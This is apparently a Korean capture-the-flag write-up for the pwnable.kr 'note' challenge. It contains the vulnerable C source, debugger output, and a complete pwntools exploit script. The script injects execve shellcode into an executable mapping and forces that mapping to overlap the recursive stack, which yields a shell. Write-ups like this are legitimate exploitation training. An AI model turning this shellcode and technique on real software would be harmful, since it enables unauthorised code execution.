


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

파일 정보를 보자.

```sh
note@pwnable:~$ checksec note
[*] '/home/note/note'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

select_menu함수를 보면 return을 만나지 않는 이상 재귀호출을 한다.

```cpp
void select_menu(){
	// menu
	int menu;
	char command[1024];
	
	printf("- Select Menu -\n");
	printf("1. create note\n");
	printf("2. write note\n");
	printf("3. read note\n");
	printf("4. delete note\n");
	printf("5. exit\n");
	scanf("%d", &menu);
	clear_newlines();

	switch(menu){
		case 1:
			create_note();
			break;

		case 2:
			write_note();
			break;

		case 3:
			read_note();
			break;

		case 4:
			delete_note();
			break;

		case 5:
			printf("bye\n");
			return;

		case 0x31337:
			printf("welcome to hacker's secret menu\n");
			printf("i'm sure 1byte overflow will be enough for you to pwn this\n");
			fgets(command, 1025, stdin);
			break;

		default:
			printf("invalid menu\n");
			break;
	}

	select_menu();
}
```

menu와 command변수를 선언하기 때문에 stack의 크기도 꾀나 잡아먹는데, 재귀호출에 의해서 select_menu가 호출될 때마다, 계속 스택이 커진다.

(ESP : 0xFFC0B520 -> 0xFFC0B0F0 -> 0xFFC0ACC0 -> 0xFFC0A890 ...)



create_note함수는 4096byte만큼 rwxp권한이 할당된 랜덤 주소를 얻어 mem_arr배열에 넣고 이를 출력해준다.

(mem_arr : c1742000 -> c1758000 -> bdf1c000)

```cpp
#define PAGE_SIZE 4096
...생략...
void create_note(){
	int i;
	void* ptr;
	for(i=0; i<256; i++){
		if(mem_arr[i] == NULL){
			ptr = mmap_s((void*)NULL, PAGE_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
			mem_arr[i] = ptr;
			printf("note created. no %d\n [%08x]", i, (int)ptr);	
			return;
		}
	}
	printf("memory sults are fool\n");
	return;
}
```

대충 스택 주소를 확인하자.

```sh
note@pwnable:~$ gdb -q ./note
Reading symbols from ./note...(no debugging symbols found)...done.
... 생략 ...
(gdb) disas select_menu
Dump of assembler code for function select_menu:
   0x080488e5 <+0>:     push   %ebp
   0x080488e6 <+1>:     mov    %esp,%ebp
   0x080488e8 <+3>:     sub    $0x428,%esp
   0x080488ee <+9>:     movl   $0x8048d66,(%esp)
... 생략 ...
(gdb) b *select_menu+9
Breakpoint 1 at 0x80488ee
(gdb) r
Starting program: /home/note/note
welcome to pwnable.kr

recently I noticed that in 32bit system with no ASLR,
 mmap(NULL... gives predictable address

I believe this is not secure in terms of software exploit mitigation
so I fixed this feature and called mmap_s

please try out this sample note application to see how mmap_s works
you will see mmap_s() giving true random address despite no ASLR

I think security people will thank me for this :)


Breakpoint 1, 0x080488e8 in select_menu ()
(gdb) x/i $esp
   0xffffd7e0:  add    $0x0,%al
(gdb) x/i $ebp
   0xffffdc08:  sub    %bl,%ah
```

readme를 읽어보면 9019번 포트로 리스닝 중이라고 한다.

```sh
the "note" binary will be executed under note_pwn privilege if you connect to port 9019.
execute the binary by connecting to daemon(nc 0 9019) then pwn it, then get flag.
* ASLR is disabled for this challenge
```

처음에 create_note를 통해 주소를 할당받고, 쉘코드를 넣어놓고, create_note와 delete_note를 사용하여 esp를 계속 줄여주자.

esp가 줄어들면서, 할당받는 주소가 esp와 겹칠경우, shell_code가 들어있는 주소를 적고 exit을 통해 return하여 shell_code를 실행시키자.

```py
note@pwnable:~$ mkdir -p /tmp/2honrr_note
note@pwnable:~$ cd /tmp/2honrr_note
note@pwnable:/tmp/2honrr_note$ vi exploit.py

from pwn import *

shell_code = b'\x31\xc0\x50\xba\x2e\x2e\x72\x67\x81\xc2\x01\x01\x01\x01\x52\xb9\x2e\x62\x69\x6e\x83\xc1\x01\x51\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
esp_addr   = 0xffffd7e0

mem_arr = []
r = remote('127.0.0.1', 9019)

r.sendlineafter('5. exit\n', '1')
r.recvuntil('[')
data = r.recvline()
shell_code_addr = int(data.split(']')[0], base=16)
log.info('shell_code_addr\t: {}'.format(hex(shell_code_addr)))

r.sendlineafter('5. exit\n', '2')
r.sendlineafter('?\n', '0')
r.sendlineafter('paste your note (MAX : 4096 byte)\n', b'\x90' * 10 + shell_code)

while True:
    esp_addr -= 0x428
    r.sendlineafter('5. exit\n', '1')
    r.recvuntil('[')
    data = r.recvline()
    mem_arr.append(int(data.split(']')[0], base=16))
    log.info('[{}]\tMEM: {} ~ {}\tESP: {}'.format(len(mem_arr), hex(mem_arr[-1]), hex(mem_arr[-1] + 0x1000), hex(esp_addr)))

    if esp_addr < mem_arr[-1]: break

    if len(mem_arr) == 255:
        for i in range(1, len(mem_arr) + 1):
            esp_addr -= 0x428 
            r.sendlineafter('5. exit\n', '4')
            r.sendlineafter('?\n', str(i))
            log.info('[{}] delete'.format(i))
        mem_arr = []

r.sendlineafter('5. exit\n', '2')
r.sendlineafter('?\n', str(len(mem_arr)))
r.sendlineafter('paste your note (MAX : 4096 byte)\n', p32(shell_code_addr) * 1024)
r.sendlineafter('5. exit\n', '5')
r.interactive()

note@pwnable:/tmp/2honrr_note$ python exploit.py
```


# **FLAG**

**FYI mmap_s stands for mmap_stupid :p**